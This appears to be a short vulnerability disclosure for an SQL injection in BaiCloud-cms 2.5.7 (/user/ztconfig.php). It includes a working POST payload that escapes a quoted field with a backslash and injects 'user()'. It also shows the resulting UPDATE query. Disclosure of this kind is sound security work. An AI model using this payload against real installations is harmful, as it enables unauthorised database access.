 ### BaiCloud
BaiCloud-cms 2.5.7 /user/ztconfig.php SQL injection Vulnerability
Link Url : https://github.com/meiko-S/BaiCloud
Edition : lastest(2.5.7)

### 0x01 Vulnerability (/user/ztconfig.php line 65)
![image](https://user-images.githubusercontent.com/50347783/143538998-60be604f-3019-4020-957f-cab3f0ab02e6.png)
after user login then post data
```
POST /user/ztconfig.php
tongji=1\&baidu_map=,baidu_map=user()#&action=modify&bannerheight=1
```
then get /user/ztconfig.php page can get result
![image](https://user-images.githubusercontent.com/50347783/143538832-0d3306f4-8ee9-44f8-8684-b9e0d2a71b68.png)

### 0x20 Analysis
we set tongji = `1\` and baidu_map=`,baidu_map=user()#`
then the query is
```
update zzcms_usersetting set comanestyle='',comanecolor='',swf='',daohang='',bannerbg='',bannerheight='1',mobile='0',tongji='1\',baidu_map=',baidu_map=user()#' where username='admin';
```
this is a legal sql statement
![image](https://user-images.githubusercontent.com/50347783/143539581-dbfa7c06-cd93-48c9-8930-82f14c38eed4.png)
and when get this page,we can get this value.
